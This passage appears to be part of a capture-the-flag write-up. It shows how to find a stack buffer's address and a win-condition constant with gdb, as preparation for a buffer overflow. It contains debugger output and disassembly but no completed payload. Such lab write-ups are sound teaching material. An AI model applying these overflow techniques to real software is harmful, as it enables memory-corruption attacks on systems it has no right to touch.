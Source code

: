 * We successfully overwrote the variable.



## level 2.1

> Overflow a buffer on the stack to set trickier conditions to obtain the flag!

* This time we are not given any information by the program.
* In order to create a payload we need to know three things:
  * [ ] Location of buffer.
  * [ ] Location of win variable.
  * [ ] Value being compared to win variable.
* Let's open the program in `gdb`.

```
gef➤  run

; -- snip --
Send your payload (up to 10 bytes)!
```

* Once we are prompted to enter our payload we can press `CTRL C` and then enter our payload.

```
gef➤  finish
Run till exit from #0  0x00007f7c7813dfd2 in __GI___libc_read (fd=0x0, buf=0x7ffc615eeba0, nbytes=0xa) at ../sysdeps/unix/sysv/linux/read.c:26
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

* The program has now read our payload.
* The `read` syscall takes the following arguments:

```c
ssize_t read(int fd, void buf[.count], size_t count);
```

* We can see that the second argument is the location to which input is read, and it is stored in `$rsi`.

```
gef➤  p $rsi
$2 = 0x7ffc615eeba0
```

* Now we know that the buffer starts at `0x7ffc615eeba0`.
* Let's disassemble the program:

```
gef➤  disassemble
Dump of assembler code for function challenge:

; -- snip --
0x0000564a9d7c246a <+264>:   mov    rax,QWORD PTR [rbp-0x88]
0x0000564a9d7c2471 <+271>:   mov    eax,DWORD PTR [rax]
0x0000564a9d7c2473 <+273>:   cmp    eax,0x47ba9894
0x0000564a9d7c2478 <+278>:   jne    0x564a9d7c2484 <challenge+290>
0x0000564a9d7c247a <+280>:   mov    eax,0x0
0x0000564a9d7c247f <+285>:   call   0x564a9d7c2265 <win>
; -- snip --
```
